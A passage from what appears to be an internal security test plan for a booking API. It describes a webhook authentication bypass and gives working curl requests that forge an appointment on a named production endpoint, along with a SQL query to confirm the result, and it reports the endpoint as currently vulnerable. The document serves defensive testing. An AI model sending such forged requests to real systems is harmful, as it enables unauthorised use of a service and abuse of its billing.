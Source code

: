 **Risk Level**: 🔴 **CRITICAL**
**CVSS Score**: 8.2 (High)
**Impact**: Resource theft, cross-company booking exploitation, billing issues

---

### 2. Webhook Authentication Bypass

#### Attack Scenario 2.1: Forged Appointment Creation

**Objective**: Create appointments without authentication via webhook forgery

**Attack Steps**:
```bash
# 1. Attempt direct webhook call without signature
curl -X POST https://api.askproai.de/api/webhooks/retell/function-call \
  -H "Content-Type: application/json" \
  -d '{
    "function_name": "book_appointment",
    "call_id": "forged_call_12345",
    "parameters": {
      "service_id": 1,
      "customer": {
        "name": "Malicious User",
        "email": "hacker@evil.com",
        "phone": "+999123456789"
      },
      "date": "2025-10-15",
      "time": "14:00",
      "duration": 60
    }
  }' \
  -w "\nHTTP Status: %{http_code}\n"

# 2. Check if appointment was created
curl -X GET https://api.askproai.de/api/v1/appointments?date=2025-10-15 \
  -H "Authorization: Bearer [valid_token]"
```

**Expected Secure Behavior**:
- HTTP 401 Unauthorized (missing signature)
- No appointment created in database
- Security alert logged

**Vulnerability Indicators**:
- ❌ HTTP 200 OK response
- ❌ Appointment created without authentication
- ❌ No signature verification performed

**Current Status**: 🔴 **VULNERABLE** (No signature verification middleware)

**Test Validation**:
```sql
-- Check if forged appointment was created
SELECT * FROM appointments
WHERE created_at > NOW() - INTERVAL 1 MINUTE
  AND customer_email = 'hacker@evil.com';

-- Expected: 0 rows (secure)
-- Vulnerable: 1+ rows (forged appointment created)
```
